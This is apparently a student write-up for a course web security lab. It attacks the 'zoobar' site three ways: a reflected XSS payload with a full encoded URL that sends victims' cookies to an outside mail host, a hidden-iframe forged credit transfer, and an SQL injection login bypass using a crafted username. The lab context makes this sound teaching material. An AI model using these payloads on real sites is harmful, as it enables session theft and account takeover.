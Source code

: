 # Web Security Project

*This document is written in Markdown format.*

## A: URL Attack

### Vulnerabilities

When users of the website search for other users on the website, the URL query are process by the website PHP script and the query content is added to the response HTML body without any escaping mechanism. Thus, it is easy for attackers to insert some bad code into the URL query and let users' browser to execute it. 

### My attack

```javascript
(new Image()).src = 'http://zoomail.org/sendmail.php?' +'&netid=edydfang' + '&payload=' + document.cookie + '&random=' + Math.random();
```

The above JavaScript send a request to zoomail.org with the site cookies in the query. And zoomail.org will sent an email to the attack, letting the attacker know the cookies, which help the attack to fool the website as the identity of that user.

Query of user:

`\" size=10\>\<script\>(new Image()).src='http://zoomail.org/sendmail.php?'+'&netid=edydfang'+'&payload='+document.cookie+'&random='+Math.random();\</script\>\<input type=\"hidden`

Encoded query:

`%5C%22%20size%3D10%5C%3E%5C%3Cscript%5C%3E%28new%20Image%28%29%29.src%3D%27http%3A%2F%2Fzoomail.org%2Fsendmail.php%3F%27%2B%27%26netid%3Dedydfang%27%2B%27%26payload%3D%27%2Bdocument.cookie%2B%27%26random%3D%27%2BMath.random%28%29%3B%5C%3C%2Fscript%5C%3E%5C%3Cinput%20type%3D%5C%22hidden`

Full URL:

`http://zoobar.org/users.php?user=%5C%22%20size%3D10%5C%3E%5C%3Cscript%5C%3E%28new%20Image%28%29%29.src%3D%27http%3A%2F%2Fzoomail.org%2Fsendmail.php%3F%27%2B%27%26netid%3Dedydfang%27%2B%27%26payload%3D%27%2Bdocument.cookie%2B%27%26random%3D%27%2BMath.random%28%29%3B%5C%3C%2Fscript%5C%3E%5C%3Cinput%20type%3D%5C%22hidden`


### TODO
- Add redirection after loading to remove red message on the webpage

## B: XSS Attack

### Vulnerabilities

The zoobar website use the cookies as a user identifier, letting the user to modify his/her information or transfer credits between users. However, when user access some malicious web pages, their cookies can be stolen and do something bad for them. Although modern web browsers help users to prevent XSS Attacks, there are many ways to work around this kind of protections such as reverse proxy and iframe method.

### My Attack

I created a webpage that send post request via an invisible form on the parent frame whose target is an invisible iframe. We put all the payload of the original transfer post into the form `input` items and then `submit`. After the iframe is loaded completely, which means our request has been sent out, we change the window location to `https://www.google.com` immediately.



## C: SQL Injection Attack

### Vulnerabilities

After analyzing the user login authorization part of the ZooBar PHP code, we will find that the most critical part of the code is in the file `includes/auth.php`.  

```php
function _checkLogin($username, $password) {
    $quoteduser = $this->db->quote($username);
    $sql = "SELECT Salt FROM Person WHERE Username = '$quoteduser'";
    $rs = $this->db->executeQuery($sql);
    if ( !$rs->next() ) return false;   // No such user
    $salt = $rs->getValueByNr(0,0);
    $hashedpassword = md5($password.$salt);
    $sql = "SELECT * FROM Person WHERE " .
           "Username = '$username' AND " .
           "Password = '$hashedpassword'";
    $result = $this->db->executeQuery($sql);
    if ( $result->next() ) {
      $this->_setCookie($result, true);
      return true;
    } else {
      return false;
    }
  }

```

In the above function `_checkLogin`, we can notice that the code will first check whether the user exists and then use another SQL to check the password. The stupid thing is that when it check the existence of the user, it use the `quote` function to do quote escaping work, which making the injection of this part impossible. However, in the password checking SQL, there is no such kind of escaping. We can just add something after the `username` to let the SQL drop the rest of the WHERE sentence. To achieve this, what we need to do is first create a user whose username we will use to attack later, then when we use the manipulated username to login, as that username exists, the program will continue and check for the password correctness. As the password checking part is not working anymore, we can successfully login the target account.

### My Attack

 I used the similar XSS of the Part B. The only difference is the post URL and the data we are sending. Also, for this attack, we need to send two package, one for registration and another for login.

For the username manipulation, we can simply append `';--` , making the SQL terminate and let the rest of the text be the comment. For example, when we want to login to the user account `attacker`, we will first register the account `attacker';--` and then we use this username again and a arbitrary password to login. The account we login will be `attack`.

### TODO
- For a, add redirection after sending the request
- For c, add redirection after logging in

